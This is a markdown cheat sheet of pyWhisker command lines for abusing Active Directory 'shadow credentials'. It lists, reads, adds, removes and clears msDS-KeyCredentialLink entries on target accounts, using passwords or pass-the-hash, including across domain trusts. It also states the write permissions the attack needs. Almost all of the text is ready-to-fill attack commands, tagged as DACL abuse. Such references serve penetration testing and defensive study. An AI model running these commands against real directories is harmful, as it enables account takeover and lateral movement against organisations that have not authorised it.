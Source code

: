 # pyWhisker

% dacl, shadow credentials, msDs-KeyCredentialLink, https://github.com/ShutdownRepo/pywhisker
#plateform/linux #target/remote #cat/AD/RECON 

## Attack requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```

## list all current KeyCredentials ID and creation time (cred)
```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```


## cross-domain - list all current KeyCredentials ID and creation time (cred) (TRUST)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -p <password> --target <target_user> --action "list"
```


## cross-domain - list all current KeyCredentials ID and creation time (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## cross-domain - get info on KeyCredential (pth)
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## cross-domain - remove KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## cross-domain - clear KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## cross-domain - add KeyCredential (pth)
#cat/ATTACK/AD/DACL-ABUSE
```
pywhisker.py --dc-ip <target_dc_ip> --target-domain <target_domain> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```

